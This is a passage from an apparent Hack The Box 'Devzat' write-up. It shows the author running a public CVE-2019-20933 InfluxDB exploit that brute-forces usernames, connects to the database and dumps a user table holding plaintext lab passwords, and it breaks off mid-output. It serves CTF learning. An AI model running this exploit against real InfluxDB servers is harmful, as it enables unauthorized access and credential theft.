 ## Exploiting InfluxDB

I had to install pip first as this Kali install didn't have it yet. After that I installed the requirements, so now we can run the exploit:

```sh
┌──(root💀kali)-[~/htb/devzat/InfluxDB-Exploit-CVE-2019-20933]
└─# python3 __main__.py            
  _____        __ _            _____  ____    ______            _       _ _   
 |_   _|      / _| |          |  __ \|  _ \  |  ____|          | |     (_) |
   | |  _ __ | |_| |_   ___  __ |  | | |_) | | |__  __  ___ __ | | ___  _| |
   | | | '_ \|  _| | | | \ \/ / |  | |  _ <  |  __| \ \/ / '_ \| |/ _ \| | __|
  _| |_| | | | | | | |_| |>  <| |__| | |_) | | |____ >  <| |_) | | (_) | | |_
 |_____|_| |_|_| |_|\__,_/_/\_\_____/|____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                                         | |
                                                         |_|
CVE-2019-20933

Insert ip host (default localhost): 
Insert port (default 8086): 
Insert influxdb user (wordlist path to bruteforce username): /usr/share/seclists/Usernames/Names/names.txt

Start username bruteforce
[x] aaliyah
[x] aaren
<SNIP>
[x] aditya
[v] admin

Host vulnerable !!!
Databases list:

1) devzat
2) _internal

Insert database name (exit to close): devzat
```

The exploit worked and we have connected to the database. This next bit took me a long time, but eventually I found this worked:

```sh
[devzat] Insert query (exit to change db): select * from "user"
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "enabled",
                        "password",
                        "username"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            false,
                            "WillyWonka2021",
                            "wilhelm"
                        ],
                        [
                            "2021-06-22T20:04:16.320782034Z",
```